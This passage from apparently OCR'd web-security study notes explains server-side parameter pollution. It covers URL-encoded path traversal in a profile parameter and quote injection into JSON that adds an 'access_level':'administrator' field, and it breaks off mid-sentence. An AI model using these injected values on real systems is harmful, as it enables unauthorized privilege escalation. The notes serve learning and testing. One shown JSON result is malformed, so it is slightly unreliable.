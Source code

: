 ```html
GET /edit_profile.php?name=peter
```

Resulting in the server-side request of:

```html
GET /api/private/users/peter
```

Try manipulating server-side URL path parameters by adding path traversal sequences to modify parameters. For example, submit URL-encoded `peter/../admin` as the value of `name`:

```html
GET /edit_profile.php?name=peter%2f..%2fadmin
```

Which may result in:

```html
GET /api/private/users/peter/../admin
```

>[!info]
>If the server-side client or backend API normalize the path, it may be resolved to /api/private/users/admin.
# Server-Side Parameter Pollution in Structured Data Formats

You can manipulate parameters in the processing of other structured data formats like JSON or XML. Try injecting unexpected structured data into user inputs and see how it responds. For example, if you edit your name:

```html
POST /myaccount
name=peter
```

Which results in the server-side request of:

```html
PATCH /users/7312/update
{"name":"peter"}
```

You can attempt to add the `access_level` parameter to the request such as:

```html
POST /myaccount
name=peter","access_level":"administrator
```

If user input is added to JSON data without validation, it results in:

```html
PATCH /users/7312/update
{name="peter","access_level":"administrator"}
```

Which can result in the user `peter` being given admin access. Another example may be where client-side user input is in JSON data. When editing your name, it makes the request:
